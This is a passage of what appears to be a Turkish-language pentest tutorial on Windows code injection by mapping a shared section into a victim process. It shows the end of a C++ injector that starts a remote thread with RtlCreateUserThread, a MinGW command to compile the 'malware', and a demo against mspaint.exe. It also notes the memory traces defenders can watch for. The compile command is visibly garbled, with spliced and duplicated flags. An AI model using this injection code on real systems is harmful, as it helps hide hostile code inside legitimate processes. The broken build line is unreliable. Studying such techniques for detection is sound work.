 ```cpp
  // create a thread
  myRtlCreateUserThread(ph, NULL, FALSE, 
  0, 0, 0, rb, NULL, &th, NULL);

  // and wait
  if (WaitForSingleObject(th, INFINITE) == WAIT_FAILED) {
    return -2;
  }

  // clean up
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  myZwUnmapViewOfSection(ph, rb);
  CloseHandle(sh);
  CloseHandle(ph);
  return 0;
}
```

Gördüğünüz gibi, her şey basit. Ayrıca, [önceki](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) bölümlerimden biri olan `findMyProc` işlevini kullandım:    

![code injection 11](./images/32/2021-12-15_18-38.png){width="80%"}    

Bölümün yerel görünümündeki değişiklikler, uzak görünümleri de değiştirecektir. Bu nedenle, zararlı kodu uzak süreç adres alanına yazmak için `KERNEL32.DLL!WriteProcessMemory` gibi API'lere ihtiyaç duyulmaz.     

Bu, `NtAllocateVirtualMemory` kullanılarak doğrudan sanal bellek ayırma işlemlerine göre bir avantaj sağlasa da, mavi takım üyelerinin dikkat etmesi gereken benzer zararlı bellek izleri oluşturur:     

![code injection 12](./images/32/2021-12-15_19-08.png){width="80%"}    

### demo

Son olarak, zararlı yazılımımızın tüm kodunu anladıktan sonra, bunu test edebiliriz.    

Zararlı yazılımımızı derleyelim:     
```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptionsections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-igc-plibgcc -fpermissive
```

![code injection 13](./images/32/2021-12-15_21-48.png){width="80%"}    

Sonra her şeyi eylemde görelim! Kurban süreci (bizim durumumuzda `mspaint.exe`) kurban makinede başlatın (`Windows 10 x64`):   

![code injection 14](./images/32/2021-12-15_21-54.png){width="80%"}    
